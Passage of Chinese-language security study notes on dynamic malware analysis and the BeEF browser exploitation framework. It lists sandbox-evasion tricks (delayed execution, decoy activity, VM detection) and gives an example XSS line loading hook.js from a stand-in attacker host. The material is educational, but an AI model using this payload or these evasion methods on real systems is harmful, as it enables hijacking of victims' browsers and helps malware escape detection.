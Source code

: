 ##### Dynamic / Heuristic Analysis（動態 / 啟發式分析）

**分析方式**：
- 在安全環境（sandbox）執行程式，觀察其行為（如改 registry、建立連線、修改檔案等）。
- 若行為類似惡意軟體，即使內容不相同，也會被標示為威脅。

**規避手法**：

| 技術 | 說明 |
|------|------|
| 延遲執行 | 程式先 sleep 30 秒後才觸發惡意行為，躲過短時間沙盒分析 |
| 引導正常行為 | 先開啟記事本、瀏覽器等合法操作掩蓋真正目的 |
| 沙盒檢測 | 判斷系統是否為虛擬機／分析環境（例如偵測硬碟名稱、MAC、RAM 小於某值）來決定是否執行 |

## Exploitation Framework：BeEF（Browser Exploitation Framework）

### BeEF 是什麼？
BeEF 是一套專門用來**攻擊瀏覽器**的滲透測試框架，名字來自 **Browser Exploitation Framework**。  
它讓你可以透過 XSS 等漏洞，將受害者的瀏覽器「hook」進你的控制中心，並執行各種針對性的操作。

---

### 攻擊流程簡介

1. **注入 hook.js**：
   - 攻擊者設法讓目標載入 BeEF 的 JavaScript hook（通常透過 XSS）。
   - 範例注入碼：
     ```html
     <script src="http://attacker.com/hook.js"></script>
     ```

2. **瀏覽器被 hook 後**：
   - 會定期向 BeEF 控制中心送出心跳請求，成為一個 hooked client。
   - 攻擊者就能透過介面操作該瀏覽器。
